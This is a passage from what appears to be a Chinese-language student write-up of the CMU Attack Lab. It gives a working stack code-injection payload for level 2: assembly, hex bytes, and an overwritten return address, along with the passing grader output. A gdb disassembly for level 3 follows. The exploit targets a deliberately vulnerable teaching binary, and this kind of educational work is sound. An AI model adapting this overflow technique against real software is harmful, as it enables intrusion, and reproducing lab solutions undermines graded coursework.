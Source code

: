 注意x86-64和32位传参数的不同(32位常用栈传参), 速度:寄存器>cache>memory

通过edi传参,那我们就自己写"函数"让`edi`里存入`cookie(0x59b997fa)` 再跳到`touch2`

注意RET指令则是将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。LEAVE指令是将栈指针指向帧指针，然后POP备份的原帧指针到%EBP。

所以编写`ans2.s`文件

```
movl $0x59b997fa,%rdi
push $0x4017ec
ret
```

用`gcc -c ans2.s`编译为`ans2.o`

再用`objdump -d ans2.o`得到

```
   0: 48 c7 c7 fa 97 b9 59  mov    $0x59b997fa,%rdi
   7: 68 ec 17 40 00        pushq  $0x4017ec
   c: c3                    retq
```

再次注意小端

注入代码构造`前面一共40个  跳转到注入代码入口` 通过断点获得输入未知rsp的指向 也就是我们输入的起始地址`0x5561DC78`

`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00`

测试

```
cat exploit.ans2 | ./hex2raw  | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

### level 3

根据官方文档 我们要让`hexmatch`函数返回`true` (感谢官方文档 不需要我们做lab2的理解汇编翻译工作了)

```
(gdb) disas touch3
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>: push   %rbx
   0x00000000004018fb <+1>: mov    %rdi,%rbx
   0x00000000004018fe <+4>: movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:  mov    %rdi,%rsi
   0x000000000040190b <+17>:  mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:  callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:  test   %eax,%eax
```
